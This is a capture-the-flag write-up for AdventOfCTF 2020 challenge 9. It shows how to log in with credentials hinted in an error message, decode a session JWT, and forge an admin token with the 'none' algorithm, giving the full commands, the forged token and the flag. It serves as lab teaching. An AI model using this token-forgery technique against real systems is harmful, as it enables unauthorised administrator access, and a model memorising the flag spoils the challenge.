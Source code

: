 +++
author = "Maik de Kruif"
title = "Challenge 9"
subtitle = "Challenge 9 - AdventOfCTF"
date = 2020-12-11T21:24:52+01:00
description = "A writeup for challenge 9 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/973ded4b2381c28af6c24d3d670303c6.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 900

## Description

Can you find a way to get into the Naughty List Management System as an admin?

Visit <https://09.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the website, we're greeted with a login screen. When we enter random credentials, we're greeted with some text: "Hey **user** your **password** is incorrect.".

This took me quite some time to find out, but it's actually fairly obvious. I started by taking a look at the cookies, but there were none. Then I tried some common URLs, but nothing (except `/admin`). Then I took another look at the error message; some bold text... The username is `user` and the password is `incorrect`.

When entering these credentials, we get redirected to `/admin` with a message: "The naughty list is currently empty....". This time, however, we also got a cookie.

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ.rre-8SBgllKlu7KpJFXuO-SEN3s-9IPRSJ7hmclXpNs
```

### JWT

This looks like a JWT. We can confirm this by decoding the text before the first period (`.`):

```bash
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
```

```json
{ "typ": "JWT", "alg": "HS256" }
```

It is a JWT that uses the HMAC-SHA256 (`HS256`) algorithm. Using a [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) is a compact, URL-safe, way of representing claims between a web server and a client. Let's decode the second part as well.

```bash
echo -n "eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ" | base64 -d
```

```json
{
  "auth": 28961,
  "text": "I do love a good puzzle.",
  "role": "user",
  "iat": 1607717857
}
```

We don't have to decode the last part as it is a secret that consists of non-printable characters.

The role in the JWT probably has to be changed to `"admin"` so let's try to do that.

#### Modifying a JWT

To modify a JWT, we would have to know the secret that was used to create it. If only there were some [vulnerabilities](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) 😀.

In a JWT you can use `none` as the algorithm. It is intended to be used for situations where the integrity of the token has already been verified. Luckily for us, some libraries treat tokens signed with the `none` algorithm as a valid token with a verified signature. This means anyone can create their own "signed" tokens with whatever payload they want, allowing arbitrary account access on some systems.

To create such a JWT, we just reverse the process. Firstly, we create the first part of the token.

```bash
echo -n '{"typ":"JWT","alg":"none"}' | base64
> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

Then the middle part:

```bash
echo -n '{"auth":28961,"text":"I do love a good puzzle.","role":"admin","iat":1607717857}' | base64
> eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30=
```

And finally, the secret. We can leave this empty because we use the `none` algorithm.

Putting all of this together and removing the padding (`=`), we get `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30.`

## Solution

When setting the cookie to this value and reloading the page, we get the flag: `NOVI{Jw7_f@ilure_in_n0ne}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#9-10).
